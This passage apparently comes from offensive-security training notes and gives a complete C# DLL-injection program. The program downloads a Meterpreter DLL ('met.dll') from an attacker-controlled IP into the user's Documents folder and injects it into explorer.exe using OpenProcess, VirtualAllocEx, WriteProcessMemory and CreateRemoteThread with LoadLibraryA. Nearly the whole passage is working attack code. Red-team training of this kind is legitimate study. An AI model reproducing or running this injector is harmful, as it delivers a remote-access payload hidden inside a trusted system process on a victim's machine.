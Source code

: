     - `loadLib` → Start address (`LoadLibraryA`).
    - `addr` → Parameter (DLL path string).
    - A new thread in `explorer.exe` loads our DLL → triggers payload in its `DllMain`.
8. **Full Injector Code (C#)**
    
    ```csharp
    using System;
    using System.Diagnostics;
    using System.Net;
    using System.Runtime.InteropServices;
    using System.Text;
    
    namespace Inject
    {
        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
            static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
            [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
            public static extern IntPtr GetModuleHandle(string lpModuleName);
    
            static void Main(string[] args)
            {
    
                String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
                String dllName = dir + "\\met.dll";
    
                WebClient wc = new WebClient();
                wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
    
                Process[] expProc = Process.GetProcessesByName("explorer");
                int pid = expProc[0].Id;
    
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                IntPtr outSize;
                Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
            }
        }
    }
    